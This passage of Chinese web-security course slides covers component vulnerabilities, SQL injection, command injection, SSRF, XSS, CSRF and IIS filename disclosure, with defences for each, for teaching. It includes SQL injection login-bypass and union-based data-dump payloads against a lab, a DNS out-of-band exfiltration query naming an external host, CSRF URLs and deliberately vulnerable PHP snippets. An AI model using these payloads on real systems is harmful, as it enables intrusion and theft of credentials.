* 同时还可通过使用加密或完整性检查（例如，数字签名），防止恶意的对象创建和数据篡改操作

# 9. 第三方组件缺陷 {id="vulnerable-component"}

---

> 所有 Web 应用程序（甚至连操作系统都没有例外）都依靠由第三方开发和提供的各种软件组件，包括开源组件和商用组件。

---

## 心脏滴血

[2014 年 4 月，知名开源安全组件 OpenSSL 被爆「心脏滴血」漏洞](https://heartbleed.com/)

* 利用该漏洞，攻击者可以直接读取远程服务器上的内存数据，其中包括大量运行时的明文密钥、明文口令等机密数据
* 攻击者借助恢复出的密钥和口令等，又可以进一步获取远程服务器的高权限 

---

* 由于「依赖于」 OpenSSL 库，Apache 和 Nginx 服务器是当时的重灾区软件
    * 彼时，根据 [Netcraft 2014 年 4 月的 Web 服务器市占率统计](https://news.netcraft.com/archives/2014/04/02/april-2014-web-server-survey.html) ，全球 66% 的网站使用了这 2 种服务器软件搭建。这就意味着这部分网站如果没有特别的缓解或防护措施，将无一幸免于这次大规模的漏洞攻击事件

---

## 心脏滴血之后的 OpenSSL 后浪 {id="openssl-forks"}

* 2014 年「心脏滴血」漏洞引发的全球各地网络攻击事件直接促使了 `OpenSSL` 的一个新分支 [LibreSSL](https://www.libressl.org/) 的诞生
    * 该项目诞生之初的目标就是为了重构 `OpenSSL` 代码，改进安全性
* 2018 年百度安全实验室开源使用 `Rust` 语言重写的兼容 `OpenSSL` 的跨平台组件 [MesaLink](https://mesalink.io/)
    * 主打 `Rust` 语言的内存安全特性
    * `MesaLink` 的一个主要应用场景是嵌入式智能设备，例如安卓手机平板、智能音箱、智能电视等

---

## Struts2 之殇 {id="struts2-vulnerabilities-1"}



---

## Struts2 之殇 {id="struts2-vulnerabilities-2"}



---

## Struts2 之殇 {id="struts2-vulnerabilities-3"}

* [Struts2 官方的漏洞公告页面](https://cwiki.apache.org/confluence/display/WW/Security+Bulletins)
* [CVEDetails 统计的 Apache Struts 漏洞（缺少2019年和2020年的漏洞信息统计）](https://www.cvedetails.com/product/6117/Apache-Struts.html?vendor_id=45)



---

> 即使自己编写的代码遵循了最佳安全实践，从代码层面规避了种种安全漏洞，但如果对于依赖的第三方组件出现的漏洞视而不见，开发上线的系统最终仍然难逃被漏洞攻击的命运

---

## Web 应用中常见第三方组件 {id="web-3rd-party-components"}

* 富文本编辑器
    * CKeditor、FCKeditor
* 通用开发框架
    * Java Struts 2，PHP （Laravel / ThinkPHP / Yii2），Python（Django，Flask）
* 常用开发库
    * Java Apache Commons Collections，OpenSSL（密码学相关），ImageMagick（图像处理），ffmpeg（视频处理）, fastjson

---

## 安全加固方案 {id="web-3rd-party-harden"}

* 持续执行监控流程，获取新型安全漏洞的通知、新发布的安全补丁和定期漏洞扫描程序

---

## 延伸到供应链安全

1. **开发环节** 。软硬件开发环境、开发工具、 **第三方库** 等。
2. 交付环节。下载、安装光盘、应用商店等。
3. 使用环节。软件升级、维护等。

---

### 开发工具之殇

* [Xcode 非官方版本恶意代码污染事件](https://www.antiy.com/response/xcodeghost.html)。
    * 截止到 2015 年 9 月 20 日，各方已经累计发现当前已确认共 692 种（如按版本号计算为 858 个）App 曾受到污染，受影响的厂商中包括了 **微信、滴滴、网易云音乐** 等著名应用
* 2017年8月，非常流行的远程终端管理软件 [Xshell 被发现植入了后门代码](https://mp.weixin.qq.com/s/I6cJ7xgT5mTESL0TXa1DBw) ，导致大量使用此款工具的用户泄露主机相关的敏感信息

---

### 过时的第三方组件

[](https://asciinema.org/a/3SAg12gM7RqlUFsiapY7yDBr5)

---

### 随时可能拖后腿的基础设施



---

### Python 第三方组件仓库投毒 {id="pypi-poison"}

[](https://www.bleepingcomputer.com/news/security/ten-malicious-libraries-found-on-pypi-python-package-index/)

---

### Npm 第三方组件仓库投毒 {id="npmjs-poison"}

[](https://www.npmjs.com/search?q=Malicious%20Package)

# 后台相关漏洞

---

* SQL 注入漏洞
* 命令注入
* 服务端请求伪造

# 10. SQL 注入漏洞 {id="sqli"}

---

* SQL 注入在今天来看是一项「古老」但「威力巨大」的远程网络攻击技术
* 「古老」：最早公开讨论 SQL 注入技术原理的是在 1998 年著名黑客杂志《Phrack》第 54 期上一篇名为 [NT Web Technology Vulnerabilities](http://www.phrack.org/issues/54/8.html#article) 的文章
    * 在这篇文章里作者举了一个针对 `MS SQL server 6.5` 的 SQL 注入的例子，如下所示：

```sql
-- MS SQL server 支持批量执行 SQL 语句
-- 以下 %% %% 之间的内容是「来自 Web 客户端用户可以控制输入的数据」
SELECT * FROM table WHERE x=%%criteria from webpage user%%

-- 如果攻击者构造的输入数据如下
1 SELECT * FROM sysobjects

-- 则最终在数据库中执行的 SQL 语句就变为了
-- 一次执行了 2 条 SQL 语句
-- 且第 2 条 SQL 语句的执行结果会覆盖第一条 SQL 语句执行的结果
-- 最终攻击者成功访问到了 sysobjects 表中的所有数据
SELECT * FROM table WHERE x=1 SELECT * FROM sysobjects
```

---

上述例子展示了 `SQL 注入攻击` 的一个典型利用效果： **越权读取数据** 。

---

## 推荐训练学习资源 {id="sqli-labs"}

* [sqli-labs](https://github.com/c4pr1c3/sqli-labs) | [sqli-labs 国内 gitee 镜像](https://gitee.com/c4pr1c3/sqli-labs)
* [MySQL 手册](https://dev.mysql.com/doc/refman/8.0/en/sql-data-manipulation-statements.html)

---

## 课内演示环境快速搭建

```bash
git clone https://github.com/c4pr1c3/sqli-labs
cd sqli-labs && docker-compose up -d

# 浏览器访问 sqli-labs http://<ip-to-your-host>:7080/
# 点击页面上的「Setup/reset Database for labs」初始化数据库
# http://<ip-to-your-host>:7080/sql-connections/setup-db.php

# 浏览器访问 adminer 网页版方式管理数据库 http://<ip-to-your-host>:7081/
# 方便调试 SQL 注入 payload

# 如果需要通过命令行连接 mysql 容器可以自行修改 docker-compose.yml 增加数据库容器的端口映射规则
```

---

## 从经典的登录绕过漏洞开始

> sqli-labs 里的 Lesson-11 Post - Error Based - Single quotes - String



---

### 缺陷代码解析

```php
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

---

### 在 SQL 控制台里调试关键注入语句 {id="sql-debug"}

```sql
/* 正常登录过程 */
SELECT username, password FROM users WHERE username='admin' and password='admin' LIMIT 0,1

/* SQL 注入登录过程 */

-- 用户名字段输入随意，例如 1 密码字段输入 1' or 1 -- （注意 -- 左右两边各有一个空格）
SELECT username, password FROM users WHERE username='admin' and password='1' or 1 -- ' LIMIT 0,1

-- 用户名字段输入 admin' --  （注意 -- 左右两边各有一个空格）密码字段输入随意
SELECT username, password FROM users WHERE username='admin' -- ' and password='1' LIMIT 0,1
```

---

## SQL 注入漏洞发现与利用的一般步骤 {id="sqli-procedure"}

* 确认漏洞注入点存在
    * 有报错回显
        * 枚举/猜解：列数 --> 数据库版本 --> 表名 --> 列名 --> 具体值
    * 无报错回显 --> SQL 盲注
        * 利用 SQL 代码延迟执行时间差
        * 利用 SQL 代码执行返回结果差异制造页面渲染结果差别

---

## 课内动手实验 {id="sqli-inclass-exp"}

利用 `sqli-labs` 里的 `Lesson-2 GET - Error based - Intiger based` 学习 `有报错回显` 经典 SQL 注入方法。

```bash
# 1. 判断注入点是否存在

http://192.168.56.144:7080/Less-2/?id=2'

# 2. 枚举字段数

http://192.168.56.144:7080/Less-2/?id=2 order by 1
http://192.168.56.144:7080/Less-2/?id=2 order by 2
http://192.168.56.144:7080/Less-2/?id=2 order by 3
# 4 时报错，说明当前查询对应的结果集数量（如果是单表查询则说明当前表的列数）为 3
http://192.168.56.144:7080/Less-2/?id=2 order by 4

# 3. 检查是否支持 union 查询
# 第一次页面返回结果无变化
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,2,3 -- 
# 第二次页面返回结果原先 name 字段显示 2 password 字段显示 3
# 说明返回结果集合的第2和第3个字段值分别对应在这 2 个位置上回显输出
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,2,3 limit 1,1 -- 

# 4. 获取数据库版本信息、数据库连接权限和当前数据库实例名
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,concat(version(),0x3a,user(),0x3a,database()),3 limit 1,1 -- 

# 5. 获取表名
# mysql < 5 只能靠字典爆破方式获取表名和列名
# mysql >= 5 可以通过查询系统库 information_schema 获取
# 以下逐一枚举系统中所有表名
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,table_name,3 from information_schema.tables where table_schema='security' limit 1,1 -- 
...
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,table_name,3 from information_schema.tables where table_schema='security' limit 4,1 -- 

# 6. 查询列名
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,column_name,3 from information_schema.columns where table_name='users'  limit 1,1 -- 
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,column_name,3 from information_schema.columns where table_name='users' limit 2,1 -- 
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,column_name,3 from information_schema.columns where table_name='users' limit 3,1 -- 

# 7. 获取表内数据
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,concat(id,0x3a,username,0x3a,password),3 from users limit 1,1 -- 
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,concat(id,0x3a,username,0x3a,password),3 from users limit 2,1 -- 
...

# TODO 总结以上手工测试过程，编写自动化脚本
```

---

## SQL 注入攻击的自动化工具 {id="sqli-tools"}

[sqlmap](http://sqlmap.org/)

---

## SQL 手工注入方法与技巧学习 {id="sqli-tutorials"}

* [Full SQL Injection Tutorial (MySQL)](https://www.exploit-db.com/papers/13045)
* 分析 [sqlmap](http://sqlmap.org/) 的流量

---

## SQL 注入攻击的典型危害 {id="sqli-impacts"}

* 越权读取数据
* 绕过访问控制
* 篡改数据
* 写文件
* 读文件
* 代码执行

---

## SQL 注入攻击的防御 {id="prevention-to-sqli"}

* 代码级别 **一劳永逸** 修复
    * 使用 [预编译 SQL 语句](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html#:~:text=This%20coding%20style%20allows%20the,are%20inserted%20by%20an%20attacker.)
* 纵深防御措施
    * 最小化数据库连接权限
    * 输入数据白名单
* 缓解措施
    * 使用 `Web 应用防火墙` （WAF）


# 11. 命令注入 {id="command-injection"}

---

* 命令注入有时也称为代码注入，两者在大部分场景下具有相同的含义
* `SQL 注入` 本身就是一种特殊的 `命令注入` ：针对 `SQL 服务器` 的 `命令注入`

---

## shell 命令注入 {id="shell-cmdi"}

[](https://asciinema.org/a/tKaq8ngneFOr6O96q8ZsBC4L8)

---

## shell 命令注入漏洞的代码级别防御 {id="prevention-to-cmdi"}

以 `PHP` 为例（其他语言类似）

* 输入数据过滤
    * `shell` 命令过滤: [escapeshellcmd](https://www.php.net/manual/zh/function.escapeshellcmd.php) 
    * `shell` 命令 **参数** 过滤：[escapeshellarg](https://www.php.net/manual/zh/function.escapeshellarg.php)

---

### 过滤是把“双刃剑” {id="filter-is-a-double-sword-1"}

> 同时使用以上这 2 个过滤函数是否防御效果加倍呢？

---

### 过滤是把“双刃剑” {id="filter-is-a-double-sword-2"}

[PHPMailer 小于 5.2.18 版本的 RCE 漏洞，官方在补丁中使用了 escapeshellarg() 来修复漏洞](https://paper.seebug.org/164/)。但在 PHPMailer 的 `mail.c` 的函数内部又使用了一遍 `escapeshellcmd()` ，导致输入数据中经过 `escapeshellarg()` 处理后单引号先被 **\\** 转义一次，再用单引号对输入参数的左右两部分进行了包围处理。后来遇到 `escapeshellcmd()` 处理时，先前被添加的 **\\** 又被转义了一次，变成了 **\\**，并且命令中所有的单引号又被转义了一次，最终导致输入参数又变回了一个可以被执行的操作系统命令。

---

## 表达式注入漏洞

* [公开资料可以找到的最早讨论表达式注入漏洞的文章是 2011 年 Stefano 和 Arshan 联合发表的Expression Language Injection](https://www.mindedsecurity.com/fileshare/ExpressionLanguageInjection.pdf)
    * Spring MVC 框架中 Spring MVC JSP 标签可以执行 Java 代码
    * 涉及到的表达式语言引擎包括：Struts 2 的 OGNL，Spring 的 SPEL 等
* Apache Struts 2 的 [S2-014](https://cwiki.apache.org/confluence/display/WW/S2-014) 就是一个典型的表达式注入漏洞，官方漏洞危害评级为：高危
* 另一个知名的 Java 企业级 Web 开发流行框架 Spring 在历史上同样爆出过表达式注入漏洞
    * 例如 [CVE-2016-4977](https://nvd.nist.gov/vuln/detail/CVE-2016-4977)、[CVE-2017-4971](https://nvd.nist.gov/vuln/detail/CVE-2017-4971)、[CVE-2018-1270](https://nvd.nist.gov/vuln/detail/CVE-2018-1270)和[CVE-2018-1273](https://nvd.nist.gov/vuln/detail/CVE-2018-1273)

---

> 截止目前，表达式注入漏洞均发生在 Java 程序之中，未来其他的 Web 开发技术也有可能出现这种类似的表达式存在，有鉴于已有的这些表达式漏洞的危害巨大。届时，表达式注入漏洞可能将成为 Web 应用程序漏洞挖掘的一个重要方向。

---

## 小结 {id="summary-of-cmdi"}

* 和前述输入相关的通用漏洞一样， **数据输入过滤** 是防御命令注入漏洞的基本方法
* 「插件」和「安全」需要兼顾
    * 纵深防御机制，而不仅仅是在代码级别的安全加固保障
        * 沙盒环境运行代码
        * 最小化权限运行代码
        * 网络隔离与最小化子网划分

# 12. 服务端请求伪造 {id="ssrf"}

---

**Server** Side Request Foregery, SSRF

---

* `文件包含`、`XXE 注入`、`反序列化漏洞` 都可以被用来构造和触发 `SSRF`
    * 这就是典型的「组合漏洞」和「链式漏洞利用」
* 严格来说，`SSRF` 不是一种独立 **漏洞类型** ，而是一种 **漏洞利用类型**

---

## 一段 SSRF 风险代码 {id="ssrf-code-snippet"}

```php
<?php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}
$url = $_GET['url'];
curl($url);
```

---

由于 curl 支持的协议类型非常广泛（根据官网描述可知有不下 20 种网络协议均可以通过 curl 访问读取），因此上述漏洞代码可以访问诸如：服务器上本地文件（利用 ``file://``）和远程 Web 服务器上的文件（利用 ``http://`` 和 ``https://``）等等。

---

## 另类 SSRF {id="ssrf-misc"}

* 除了文件读取时容易造成 SSRF 漏洞（例如文档、图片、音视频处理等在接受文件路径输入参数时很可能同时支持本地和网络协议 URL）
* 数据库的一些内置功能（加载网络地址时会自动对其中包含的域名字段进行 DNS 查询）也会被利用在 SQL 注入的过程中获取数据

---

### SQL 注入过程中的 SSRF {id="ssrf-in-sqli"}

以 [sqlmap](http://sqlmap.org/) 为例，在其众多数据获取技巧中提供了一个命令行参数 `--dns-domain` 就是实现了利用 SQL 数据库在执行一些特定函数时会对其中传入的参数当作域名进行查询这个特性的 `基于 DNS 的带外数据回传`

---

```sql
select load_file(concat('\\\\', version(), '.6a7087aa4e3b2c743ed1.d.zhack.ca\\1.txt'));
```

成功执行上述 SQL 代码将会在 [dnsbin.zhack.ca](http://dnsbin.zhack.ca/)  的 DNS 解析服务器上留下一条 DNS 查询记录，如下图所示：



---

* 需要注意的是，MySQL 的全局配置参数 [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) 的设定会影响到 `load_file()` 是否解析参数中包含的域名
    * 在从 MySQL 官网下载的 5.7.16 之前独立安装包版本或 5.7.5 之前所有版本的 `secure_file_priv` 缺省设置均为空，则上述攻击代码能得手
    * 但如果设置为 NULL 则会禁用文件读取操作，如果设置为指定目录，则只能从指定目录读取文件

---

## 小结

* SSRF 漏洞既可以发生在服务器端脚本所在的主机，也可能发生在后台服务（如上文中举例的数据库）主机
* SSRF 漏洞一旦被利用可以被用来进行内网服务发现和扫描、作为跳板攻击内网或本地应用程序和 Web 应用等，甚至是任意读取 SSRF 漏洞触发所在主机上的本地文件
* 防御 SSRF 漏洞的基本方法除了输入相关的通用漏洞防御方法之外，对于重要的后台服务启用 `身份认证` 和 `二次鉴权` 可以有效的缓解 SSRF 的漏洞利用效果


# 输出相关漏洞

---

* 跨站点脚本
* 信息泄露

# 13. 跨站点脚本 {id="xss"}

---

## XSS 考古 {id="xss-history"}

* 跨站点脚本（Cross-Site Scripting，XSS）的简写没有采用 `CSS` 是为了避免和另一个术语 `层叠样式表（Cascading Style Sheet）` 产生歧义
* 公开资料最早提及 XSS 威胁的来自于 1996 年 6 月 30 日 `comp.sys.acorn.misc` 新闻组的一条消息，如下页图所示。

---



---

## “古代” XSS 的漏洞利用效果 {id="xss-impacts-in-the-old-days"}

* 盗取用户浏览历史记录
* 盗取用户邮箱地址
* 下载恶意文件并诱骗用户打开运行
* 遍历磁盘上的文件

---

## XSS 的前身：恶意浏览器脚本 {id="evil-livescript"}

* 1995 年 9 月 18 日，Netscape Navigator 2.0 发布。一个月后 Netscape 为其下一个公开测试版浏览器上线了“漏洞悬赏（Bugs Bounty）”计划并在一周后收到了第一个漏洞报告
    * `恶意 LiveScript（JavaScript 语言的前身） 可以用于盗取用户在访问指定恶意网页之前的所有的浏览历史记录`
* 相比二进制漏挖和利用的难度和时间成本，脚本漏洞挖掘和利用更容易、效果也有特别惊人的时候
    * 客户端脚本漏洞攻防研究开始成为安全行业关注热点

---

## 现代 XSS 相比 `“古代” XSS` {id="modern-xss-1"} 

* 漏洞利用目标没变：跨域访问（读取和篡改）数据
* 漏洞基本原理没变：恶意代码运行在浏览器上
    * 混合式应用的流行使得原生应用和 Web 应用的边界变得模糊：『无头浏览器』和『嵌入式 JS 引擎』流行起来

---

## 现代 XSS 相比 `“古代” XSS` 漏洞挖掘难度“没变” {id="modern-xss-2"}

[](https://www.cvedetails.com/vulnerabilities-by-types.php)

---

> 相比于年度漏洞总数的变化趋势，XSS 的漏洞总数变化非常稳定

---

## 现代 XSS 相比 `“古代” XSS` 漏洞挖掘难度“没变” {id="modern-xss-3"}

[](https://www.cvedetails.com/vulnerabilities-by-types.php)

---

> 众所周知「预编译 SQL 语句」的普及使得 SQL 注入漏洞挖掘难度越来越高，所以 SQL 注入漏洞的年度统计趋势是呈明显下降趋势的

---

## 现代 XSS 相比 `“古代” XSS` 利用价值“稳中有升” {id="modern-xss-4"}

[](https://www.cvedetails.com/vulnerabilities-by-types.php)

---

> 只看 XSS 漏洞数量的年度统计，“稳中有升”的曝光数量间接证明了其利用价值是“稳中有升”的：从投入产出比的经济学角度思考

---

## 现代 XSS 相比 `“古代” XSS` 的主要变化 {id="modern-xss-features"}

* 客户端碎片化趋势加剧
    * 万物互联的物联网终端设备
* 客户端可编程能力加强
    * 现代计算力的跨时代提升
* 客户端安全防御水平参差不齐
    * 原因复杂，但现状和趋势未见有明确改变的路径
* 客户端代码复杂度提升
    * 前端框架的繁荣和前端工程化水平的发展轨迹

---

## 为什么 XSS 被归类到「输出相关漏洞」 {id="why-xss-is-output-based"}

```php
<?php
$msg = $_GET['msg'];
// 用户提交的消息被作为关键字提交到后台进行信息检索
// 页面同时把用户输入的搜索关键词展示出来
echo "<div>$msg</div>";
```

---

## 可能是最简单的一种「漏洞攻击」`代码` {id="the-simplest-exp-code"}

```html

```

“攻击者”在访问包含上述 PHP 代码的网页时，在浏览器地址栏里输入查询参数 `msg=` 上述 `XSS 攻击代码` 后回车，将会看到当前浏览的页面出现一个「警告对话框」，显示内容为 `1` 。



---

## XSS 也太好学了吧？ {id="is-xss-really-easy"}

> Too young, too simple!

---



> 为什么 2018 年 8 月写作本节内容时是在 Firefox 浏览器上实验并截图的呢？因为彼时的 Google Chrome 有专门 XSS 的内置启用防御组件 `xss-auditor` ，这段代码在彼时的 Google Chrome 上是无法运行成功的！

---



---

> 前方「倒车」请注意，请猜猜哪个浏览器是 Google Chrome ？



---

## Google Chrome 主动放弃 XSS-Auditor {id="why-xss-auditor-is-discontinued"}

[](https://www.chromium.org/developers/design-documents/xss-auditor)

---

### 正方（支持放弃 XSS-Auditor）观点 {id="positive-to-abandon"}

* Web 脚本代码自身的漏洞就应该依赖于提高代码质量来解决，而不是依赖于「通用」缓解措施
    * 是不是在学习 `SQL 注入的安全解决方案` 时听过类似的观点？
* 浏览器开发者不能总惯着前端工程师，是时候 “放手” 让他们成长了
    * 新一批工程师们多学点「安全开发知识」，从代码层面杜绝掉 XSS 漏洞
        * 学会用浏览器的 `CSP 安全策略` 、`Cookie 安全机制里的 HttpOnly 属性`
* 误报太多，影响复杂前端渲染和交互逻辑的实现

---

### 反方（反对放弃 XSS-Auditor）观点 {id="negative-to-abandon"}

* 在浏览器底层多做一层「安全缓解」措施，这是符合「纵深防御」黄金策略原则的
* 指望“这一届”程序员们学会安全开发？呵呵。再等等“下一届”吧。

---

> 八卦结束，回到正题。

---

* 前一个演示的这个 XSS 效果对应的 XSS 类型被称为 `“反射型” XSS`
    * `反射型 XSS` 只是简单地把用户输入的数据“反射”给浏览器
    * 攻击者往往需要诱骗用户“点击”一个恶意链接，链接中包含 XSS 代码，才能攻击成功
    * 反射型 XSS 也被称为 `“非持久型 XSS”`

---

## XSS 漏洞类型分类 {id="xss-types"}

* `“反射型” XSS` （ Reflective XSS，也被称为 `“非持久型 XSS”`）
* 存储型 XSS （Stored XSS）
    * 利用浏览器的 `客户端存储机制` 存储 XSS 攻击代码
    * 利用服务器端的数据库等持久化存储机制存储 XSS 攻击代码
* 基于文档对象模型的 XSS（DOM Based XSS）
    * 早期也被视为 `“反射型” XSS`
    * [Amit Klein 在 2005 年的一篇技术报告](http://www.webappsec.org/projects/articles/071105.shtml) 首先提出 `DOM Based XSS` 这个概念，业界自此逐渐接受这个更精细化的分类
    * 演变发展过程中结合了 `客户端存储机制` 实现了持久化的 `DOM Based XSS`

---

## XSS 漏洞利用很难通杀所有浏览器 {id="xss-exploit-obstacles"}


---

## 离开 JavaScript 也能来一次 XSS 攻击 {id="xss-without-js"}



---

## XSS 实战技巧 {id="xss-in-real"}

* 在绝大多数情况下，XSS 中都会包含 JavaScript 代码，以完成更高级的漏洞利用效果
* 从攻击者角度看 XSS
    * 发现和验证 XSS 的存在性虽然容易，但只是第一步
    * 和谐完美利用达到最大化漏洞利用效果非常不容易
    * 工具党的福音 [BeEF, The Browser Exploitation Framework](https://beefproject.com/) 

---

## 防御 XSS {id="prevention-to-xss-1"}

* 服务端脚本在「输出」数据时，要进行「转义」操作
* 「输出」数据的「转义」要按内容是 HTML 还是 JavaScript 进行区别操作，以下以 PHP 代码为例说明具体操作注意事项：
    * 对于 HTML 的输出转义应使用 [`htmlspecialchar()`](http://php.net/manual/zh/function.htmlspecialchars.php) 函数（且大多数情况下应在第二个参数设置 `ENT_QUOTES` 来转义单引号）
    * 对于 JavaScript 的输出转义，特别是涉及到 JavaScript 变量的过滤仅仅使用 `htmlspecialchars()` 是不够的，很多 RESTful 接口应用还会使用 `json_encode()` 去处理服务端脚本输出给客户端的 JavaScript 变量值

---

## 防御 XSS {id="prevention-to-xss-2"}

* 在客户端脚本中尽可能使用 `innerText()` 之类的函数来过滤服务端脚本对客户端变量的赋值
* 联合现代浏览器的客户端安全机制，共同对抗 XSS
    * 在服务端输出 HTML 时，加上 [`Content Security Policy`](https://w3c.github.io/webappsec-csp/) 的 HTTP 响应头
    * 低版本浏览器可能不支持，但某些低版本浏览器支持一些自定义 HTTP 响应头 [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection) 来限制加载执行不可信脚本
    * 在设置 Cookie 时，加上 HttpOnly 参数避免关键 Cookie 字段被脚本访问

---

## 防御 XSS {id="prevention-to-xss-3"}

* 由于 XSS 漏洞的实际触发位置是在浏览器，因此即使按照上述服务端脚本的代码安全最佳实践去实现「净化」输出，但如果 XSS 漏洞再利用一些浏览器漏洞（特别是一些字符集编码漏洞）进行配合，那么依然难免 XSS 漏洞
* 不过好在这种情况发生的概率要远远低于由于服务端脚本没有「净化」输出导致的 XSS
* 使用正确的「净化」输出方案是在代码级别防御 XSS 的最重要手段

# 14. 信息泄露 {id="info-leakage"}

---

* 代码运行时调试信息泄露
    * 例如前述 `SQL 注入漏洞` 在有错误信息回显时的漏洞利用难度会大大降低
* 隐私数据未做脱敏操作就输出给客户端
    * 如信用卡号、手机号、身份证号等，在发送给前端之前用星号代替
    * 中国的 18 位公民身份证号码从最早的全部明文显示在软件界面上，发展经历了遮蔽4位数字、8位数字，直到只显示首末 2 位数字（如支付宝）
    * 非必需展示和发送给客户端的数据，应避免在服务端脚本直接输出

# 再看一个输入相关的有趣漏洞

---

CSRF 漏洞

# 15. CSRF 漏洞 {id="csrf"}

---

1. 利用站点已验证通过的用户会话（无需获取用户的登录凭证）

http://victim.org/addFriend.do?friend=attacker@gmail.com

2. 当一个已经登录 `victim.org` 的用户打开一个包含有 `XSS` 攻击代码的页面（或者通过一个隐藏的iframe），并且该 `XSS` 代码执行上述的 `URL` 请求，则该用户就会执行 `addFriend` 这个操作

3. 结果：用户在不知情的情况下添加了攻击者作为自己的好友

---


---

## CSRF 知名安全事件 {id="csrf-notorious-event"}

* 新浪微博 `2011 年 6 月 28 日` 晚间的大规模 `XSS+CSRF` 蠕虫事件
    * 事件时间线：16分钟
        * 20:14，开始有大量带V的认证用户中招转发蠕虫
        * 20:30，2kt.cn中的病毒页面无法访问
        * 20:32，新浪微博中hellosamy用户无法访问
        * 21:02，新浪漏洞修补完毕
    * 感染人数：32961人！
* 病毒作者使用的用户名 `hello-samy` 是为了向世界上第一个 `XSS+CSRF` 蠕虫作者 `samy` 致敬

---

## CSRF 描述 {id="csrf-description"}

* 从名称上来看类似跨站点攻击，但实质上完全不同：
    * XSS 是滥用用户对 Web 站点的信任
    * CSRF 是滥用 Web 站点对其授权用户的信任
* 伪装成来自受信任站点的合法用户
    * 有时也被称为会话劫持攻击
* 典型案例
    * 诱骗用户访问一个图片源标记为恶意请求链接的页面，从而触发一个异步的恶意远程调用
    * 接受受信任并且通过验证的用户的输入但并不检查数据的来源地址

---

## 与 XSS 的联系 {id="csrf-vs-xss"}

* 跨站点请求伪造通常伴随 XSS 漏洞利用过程
* 先有 XSS，再有 CSRF
    * 借助 XSS 漏洞获得在用户浏览器执行脚本的机会
* 没有 XSS，一样可以有 CSRF
    * 借助已通过网站认证和获得授权的用户浏览器会话
        * 假借用户的合法cookie
* 一个URL即可触发一次CSRF
    * http://victim.org/deluser.php?id=admin

---

## 防御 CSRF {id="prevention-to-csrf-1"}

1. 对 `HTTP Header` 中的 `Referer` 字段进行验证

* `HTTP Referer` 字段记录了该 HTTP 请求的来源地址。在通常情况下，访问一个安全受限页面的请求必须来自于同一个网站
    * 只需要对于每一个 POST 请求验证其 Referer 值，如果是来源于「受信任」域名的请求，则接受
    * 如果 Referer 是其他网站的话，就有可能是 CSRF 攻击，则拒绝该请求

---

## 防御 CSRF {id="prevention-to-csrf-2"}

2. 在 POST 请求中添加 token 作为参数并验证

* 这种安全策略被各种 Web 框架广泛采用（包括 `Laravel` 等）
* CSRF 漏洞能够被利用的主要原因就是用户的全部验证信息均保存在 `Cookie` 中，攻击者可以在不接触到 `Cookie` 的前提下完成身份验证
    * 只需在请求中设置一个攻击者所无法伪造的、不可预测的 `token`，且保证这个 `token` 与 `Cookie` 是毫无关联的
    * 此外，还应保证这个 `token` 是独立且不重复使用的
    * 在服务端验证用户身份时应同时对 `Cookie` 及 `token` 进行验证
        * 这个 `token` 被称为 `csrftoken`，在 HTML 的表单中，该字段的输入域往往是隐藏的

---

## 防御 CSRF {id="prevention-to-csrf-3"}

3. 在 HTTP 头中自定义属性并验证

* 自定义属性的方法也是使用 token 并进行验证，和前一种方法不同的是，这里并不是把 token 以参数的形式置于 HTTP 请求之中，而是把它放到 `HTTP Header` 中自定义的属性里
* 当前一种方法实现不便的情况下，可以采用这种安全策略进行系统加固

---

## 防御 CSRF {id="prevention-to-csrf-4"}

4. 添加验证码并验证

* 可以在表单中增加随机验证码，采用强制用户与 Web 应用进行交互的方式防止 CSRF 攻击
    * 登录验证、交易等针对危险操作的接口
    * 但强制所有请求都使用验证码往往也是不现实的
* 在实战中， Web 程序往往采用在 POST 请求中添加 token 作为参数并验证的方法作为防止 CSRF 漏洞的安全策略
    * 禁止将 `csrftoken` 作为 GET 参数进行请求，防止请求地址被记录到浏览器的地址栏，也防止 token 通过 Referer 泄露到其他网站

---

## 防御 CSRF {id="prevention-to-csrf-5"}

以上 4 条防御方法通常是「组合使用」，而不是「单一」应用。

# 平台相关漏洞

---

* Web 服务器 URI 解析类漏洞
* 不当配置缺陷

# 16. Web 服务器 URI 解析类漏洞 {id="web-svr-uri-parse-vul"}

---

* 在 `文件上传` 漏洞一节我们介绍过了 [CVE-2013-4547](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-4547) 这个 Nginx 文件名解析逻辑漏洞。
* 下面我们按照 URI 解析类漏洞造成的影响效果进行分类介绍

---

## 目录遍历或信息泄漏

* 2012 年 6 月知名 Web 安全专家 Soroush Dalili 公布了微软 IIS 服务器在[处理 `~` 字符时的缺陷](https://soroush.secproject.com/blog/2012/06/microsoft-iis-tilde-character-vulnerabilityfeature-short-filefolder-name-disclosure/)导致服务器上任意文件可被枚举探测存在性
    * 这个漏洞存在的根本原因是微软在 DOS 时代设计的针对长文件名的自动缩短 `8.3` 命名规则

---

### `8.3` 命名规则的一次滥用过程

* 例如，文件名 `exampletest.txt` 按照 `8.3` 命名规则会被自动转换为 `EXAMPL~1.txt`。如果此时该目录下存在另一个文件名 `examplefile.txt`，则按照 `8.3` 命名规则该文件会被自动转换为 `EXAMPL~2.TXT`
* 注意，`8.3` 规则命名的文件和原文件名是等价的，操作系统会负责解析加载 `8.3` 规则命名的正确文件
* 攻击者为了探测服务器上是否存在一个名为 `exampletest.txt` 的文件，可以采用如下步骤发送 HTTP GET 请求进行枚举探测：

---

```c
http:/example.com/*~1*/.aspx
// 如果服务器返回状态码 404 说明服务器上存在不止一个 8.3 命名规则的文件

http:/example.com/e*~1*/.aspx
